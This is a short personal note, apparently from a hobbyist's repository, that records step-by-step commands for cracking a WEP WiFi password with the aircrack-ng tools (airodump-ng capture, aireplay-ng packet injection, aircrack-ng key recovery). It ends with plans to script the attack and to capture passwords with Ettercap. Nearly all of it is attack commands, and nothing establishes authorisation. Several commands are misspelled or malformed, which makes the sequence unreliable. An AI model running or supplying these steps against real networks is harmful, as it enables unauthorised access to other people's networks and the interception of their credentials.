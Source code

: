 # 27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

Steps/Commands

wlan0 = own interface -> wlan1monmon
mon0 = find it by "airmon-ng"

**Wireless Reconnaiccance:**
Window 1
	* iwconfig
	* airmin-ng start wlan0
		* airodump-ng mon0
		* Find information in table
			* ESSID
			* BSSID
			* Channel
			* Client's  MAC

**WEP:**
Window 1
	* airmon-ng
		* Find mon0
	* airodump-ng mon0
	* Find information in table
	
New window 2
	* airodump-ng --bssid "client's MAC" -c "Channel" -w wep_log mon0

New window 3 
	* ifconfig 
	* Find own MAC

New window 4
	* airdoplay-ng -l 0 -a "client's MAC" -h "own MAC" -e "name connaction" mon0 --ignore-negative-one
	* airoplay-ng -3 -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one

new window 5
	* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one
	* use this packet? ENTER


Window 2 
	* Everything is fine if data is above 5000 
	* Close window 2, 3, 4, 5

First window	
	* clear
	* aircrack-ng -a l -b "client's MAC" -n 64 wep_log-01.cap
	
FIND PASSWORD!!!!

Next time: Script schrijven!
TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?)
